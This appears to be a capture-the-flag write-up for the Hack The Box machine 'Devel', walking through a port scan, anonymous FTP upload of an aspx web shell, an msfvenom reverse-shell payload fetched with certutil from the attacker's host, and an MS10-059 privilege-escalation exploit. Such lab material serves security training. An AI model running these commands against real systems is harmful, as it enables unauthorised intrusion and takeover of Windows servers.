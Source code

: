 ```yaml
---
title: "HTB Devel"
permalink: /writeups/devel
location: default
---
```


# HTB Devel

**Machine Information**

	IP : 10.10.10.5
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`.

```
rustscan -a 10.10.10.5 -- -sC -sV
```

This should reveal two open ports: `21` and `80`.

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 05-11-24  09:58AM                 1442 cmdasp.aspx
| 05-11-24  09:56AM                   13 hello.txt
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Getting a Foothold

**Upload a Web Shell**

We are able to connect to the FTP server as an anonymous user.

```
ftp 10.10.10.5
```

Looking at the files it looks like we are accessing the directory for an IIS web server.

```
ftp> ls
229 Entering Extended Passive Mode (|||49157|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
```

This can be confirmed by uploading a text file and seeing if we can access it.

```
put hello.txt
```

<http://10.10.10.5/hello.txt>

Success!

```
Hello there
```

Since it is an IIS server we need to upload an `aspx` web shell. One should be included with Kali Linux.

```
locate cmdasp.aspx
```

Copy this file to a current directory and upload it to the FTP server.

```
put cmdasp.aspx
```

Go to the following endpoint to access the web shell.

<http://10.10.10.5/cmdasp.aspx>

**Upload a Reverse Shell**

Use `msfvenom` to create a reverse shell payload.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f exe > shelly.exe
```

Upload the payload using the web shell.

```
mkdir C:\temp
certutil -urlcache -f http://10.10.14.4/shelly.exe C:\temp\shelly.exe
```

Start a new `netcat` listener and run the exploit to get a reverse shell.

```
C:\temp\shelly.exe
```

Success!

```
c:\windows\system32\inetsrv>whoami
iis apppool\web
```

### Privilege Escalation

Running `systeminfo` showed no patches have been installed which means it is likely vulnerable to multiple exploits. I used `Chimichurri.exe` as it was used on a previous machine and worked. It can be retrieved from the following link:

<https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe>

After the exploit has been uploaded create a new `netcat` listener and run the exploit.

```
.\MS10-059.exe 10.10.14.4 9001
```

Success!

```
C:\temp>whoami
nt authority\system
```

The user flag can be retrieved from the following directory:

```
C:\Users\babis\Desktop\user.txt
```

The root flag can be retrieved from the following directory:

```
C:\Users\Administrator\Desktop\root.txt
```
